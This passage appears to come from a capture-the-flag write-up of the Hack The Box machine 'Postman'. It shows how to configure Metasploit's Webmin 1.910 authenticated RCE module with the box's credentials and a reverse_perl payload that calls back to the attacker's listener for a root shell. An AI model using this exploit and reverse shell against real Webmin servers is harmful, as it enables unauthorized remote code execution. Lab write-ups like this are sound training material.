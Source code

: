 3. Demo - `MiniServ/Webmin 1.91 Authenticated RCE`
		![](vmware_D6liDAQW8D.gif)

## Root - Webmin/MiniServ 1.910 Authenticated RCE (Metasploit)

1. Launch `msfconsole`
2. Set `OPTIONS`

	```
	msf6 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
	PASSWORD => computer2008
	msf6 exploit(linux/http/webmin_packageup_rce) > set RHOSTS postman.htb
	RHOSTS => postman.htb
	msf6 exploit(linux/http/webmin_packageup_rce) > set SSL true
	[!] Changing the SSL option's value may require changing RPORT!
	SSL => true
	msf6 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
	USERNAME => Matt
	msf6 exploit(linux/http/webmin_packageup_rce) > set LHOST tun0
	LHOST => 10.10.14.14
	```

3. View `OPTIONS`

	```
	Module options (exploit/linux/http/webmin_packageup_rce):
	
	   Name       Current Setting      Required  Description
	   ----       ---------------      --------  -----------
	   PASSWORD   computer2008         yes       Webmin Password
	   Proxies    http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
	   RHOSTS     10.10.10.160         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT      10000                yes       The target port (TCP)
	   SSL        true                 no        Negotiate SSL/TLS for outgoing connections
	   TARGETURI  /                    yes       Base path for Webmin application
	   USERNAME   Matt                 yes       Webmin Username
	   VHOST                           no        HTTP server virtual host
	
	
	Payload options (cmd/unix/reverse_perl):
	
	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port
	
	
	Exploit target:
	
	   Id  Name
	   --  ----
	   0   Webmin <= 1.910
	```
